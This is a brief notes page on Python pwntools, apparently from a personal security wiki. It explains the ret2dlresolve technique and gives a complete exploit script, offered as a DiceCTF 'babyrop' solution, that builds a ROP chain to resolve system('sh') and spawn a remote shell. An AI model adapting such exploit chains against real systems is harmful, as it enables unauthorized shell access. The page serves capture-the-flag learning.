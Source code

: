 # Python pwntools
<!-- brief: Various recipes for Python pwntools -->
This page contains some notes and code using Python [pwntools](https://github.com/Gallopsled/pwntools) to exploit binaries. Contents are:
- [ret2dlresolve](#ret2dlresolve)

## ret2dlresolve
<!-- brief: Perform ret2dlresolve to fool a linker into resolving a system() function -->
<!-- keywords: dl_resolve, system, shell -->
The [pwntools](pwntools.md) library has a function that will automatically create a payload for *ret2dlresolve* (finding and calling any function in a dynamic library, including *libc*). It does this by fooling the linker into thinking it needs to resolve the `system()` function in the PLT. The following is a solution for DiceCTF babyrop using *ret2dlresolve*:
```
#!/usr/bin/env python3
from pwn import *

# Add the binary to use
binary = ELF('./babyrop')
context.binary = binary

# Create a payload for ret2dl for the system command
# This will trick the dynamic linker into resolving
# system() for us
d = Ret2dlresolvePayload(binary, symbol="system", args=["sh"])

# Create our rop chain
rop = ROP(binary)

# This is just for stack alignment (ret gadget)
rop.raw(0x40101a)

# Get where to write the fake structures
# to be resolved
rop.gets(d.data_addr)

# Call to dl_resolve() to resolve our system() function
rop.ret2dlresolve(d)

# Attach to the remote server
p = remote('dicec.tf', 31924)

# Send the payload to resolve system()
p.sendline(flat({72: rop.chain()}))

# Send the payload to call system
p.sendline(d.payload)

# Interact with the new shell!
p.interactive()
```

